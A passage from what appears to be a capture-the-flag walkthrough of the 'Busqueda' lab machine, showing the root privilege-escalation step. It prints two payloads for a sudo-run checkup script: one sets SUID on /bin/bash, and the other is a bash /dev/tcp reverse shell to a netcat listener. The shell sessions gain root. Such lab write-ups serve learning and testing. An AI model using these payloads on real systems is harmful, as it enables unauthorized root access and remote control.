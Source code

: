
We can create a malicious script that will be executed by the sudo command we can add a SUID to `/bin/bash` to make it execute commands as root.
>When you run a command with SUID (Set User ID) permission, the command is executed with the privileges of the file owner instead of the privileges of the user who is running the command. This means that if a file has SUID permission and is owned by root, then any user who runs that file will effectively have root privileges for the duration of the command.

Another payload could be setting up a reverse shell in the script. 

### Weaponizing full-checkup.sh

```bash
svc@busqueda:~$ pwd
/home/svc
svc@busqueda:~$ vi full-checkup.sh 
svc@busqueda:~$ chmod +x full-checkup.sh
svc@busqueda:~$ cat full-checkup.sh 
#!/bin/bash
chmod +s /bin/bash
svc@busqueda:~$ sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup './full-checkup.sh'

[+] Done!
svc@busqueda:~$ bash -p
svc@busqueda:~# whoami
root
svc@busqueda:~# cat /root/root.txt
0f3**REDACTED**d32

```

Or we can set up a reverse shell to connect to our `netcat` listener:

```bash
svc@busqueda:~$ cat full-checkup.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.44/1234 0>&1
svc@busqueda:~/$ sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

We now have a root shell:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.44] from (UNKNOWN) [10.10.11.208] 56760
root@busqueda:/home/svc/# cat /root/root.txt
0f3**REDACTED**d32
```